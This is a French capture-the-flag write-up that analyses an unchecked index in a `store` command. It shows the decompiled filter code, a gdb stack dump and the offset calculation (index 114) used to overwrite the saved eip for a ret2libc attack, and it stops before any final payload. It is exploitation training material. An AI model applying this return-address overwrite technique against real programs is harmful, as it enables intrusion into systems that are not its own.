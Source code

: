 ## Objectif

La commande `store` ne vérifie pas l'index entré par l'utilisateur. On peut donc écrire un nombre plus loin que le `buffer`. Idéal pour écraser `eip` et faire un exploit `Ret2libc`.

## Problème

La fonction `store_number` impose 2 limites à la valeur de l'index :
```c
printf(" Number: ");
uVar1 = get_unum();
printf(" Index: ");
uVar2 = get_unum();
if ((uVar2 % 3 == 0) || (uVar1 >> 0x18 == 0xb7)) {
    [Error]
} else {
    [Store number]
}
```
- la valeur de l'index modulo `3` ne doit pas être égale à `0`.
- le premier octet du nombre stocké ne doit pas être égal à `0xb7`.

En incrémentant la valeur de l'index de `1`, on remarque que le programme stocke le nombre 4 octets plus loin. En effet au moment de copier le nombre dans la mémoire, le programme effectue une multiplication par `4` de l'index.
```
*(uint32_t *)(uVar2 * 4 + arg_8h) = uVar1;
                      ^
                      multiplication par 4
                      de l'index
```
En comparant les adresses du `buffer` et de `eip`, on remarque que nous devons écrire un nombre à l'index `114` afin d'écraser `eip`.
```
> (gdb) x $ebp+0x04
0xffffd2ec:	0xf7e45513
> (gdb) x/124wx $esp
0xffffd100:	0xffffd124	0x00000014	0xf7fcfac0	0xf7fdc714
                     ^
                     adresse du buffer
0xffffd110:	0x00000098	0xffffffff	0xffffd3e4	0xffffd388
0xffffd120:	0x00000000	0x00000000	0x00000457	0x00000000
                                             ^
                                             1111
0xffffd130:	0x00000000	0x00000000	0x00000000	0x00000000
[...]
0xffffd2a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd2b0:	0x00000000	0x00000001	0x726f7473	0x00000065
0xffffd2c0:	0x00000000	0x00000000	0x00000000	0x14fa5e00
0xffffd2d0:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
0xffffd2e0:	0x00000000	0x00000000	0x00000000	0xf7e45513
                                                         ^
                                                         eip
```
```
index = [adresse_eip] - [adresse_buffer]
      = 0xffffd2ec - 0xffffd124
      = 0x72
      = 114 (base 10)
```
Or
```
114 % 3 = 0
```